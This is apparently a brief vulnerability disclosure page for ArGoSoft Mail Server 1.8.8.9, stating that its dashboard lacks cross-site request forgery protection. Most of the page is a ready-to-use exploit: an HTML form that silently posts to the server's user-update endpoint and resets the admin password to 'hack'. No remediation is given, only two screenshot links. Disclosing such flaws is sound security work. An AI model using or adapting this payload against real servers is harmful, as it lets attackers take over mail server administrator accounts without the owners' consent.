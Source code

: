 # CSRF on ArGoSoft Mail Server 1.8.8.9

_____________________________________________

## About ArGo Soft Mail Server

Website: https://www.argosoft.com/rootpages/MailServer/Default
______________________________________________

## CSRF on ArGo Soft Mail Server 1.8.8.9

The ArGo Soft Mail Server dashboard does not have protection against attacks of the type Cross Site Request Forgery (CSRF), making it possible to use the exploit below to change the admin password:

```
<!DOCTYPE html>
<html>
<body>
	<form method="POST" action="http://192.168.56.105:80/upduser">
		<input type="text" name="realname" value="admin">
		<input type="text" name="password" value="hack">
		<input type="text" name="confirmpassword" value="hack">
		<input type="text" name="forwardaddress" value="">
		<input type="text" name="keepcopies" value="N">
		<input type="text" name="returnaddress" value="">
		<input type="text" name="fingerinfo" value="">
		<input type="text" name="respondersubject" value="">
		<input type="text" name="responderdata" value="">
		<input type="submit" value="Send">
	</form>
</body>

```

![a1](http://sejalivre.org/poc3/argo1.png)

![a2](http://sejalivre.org/poc3/argo2.png)
_______________________________________________
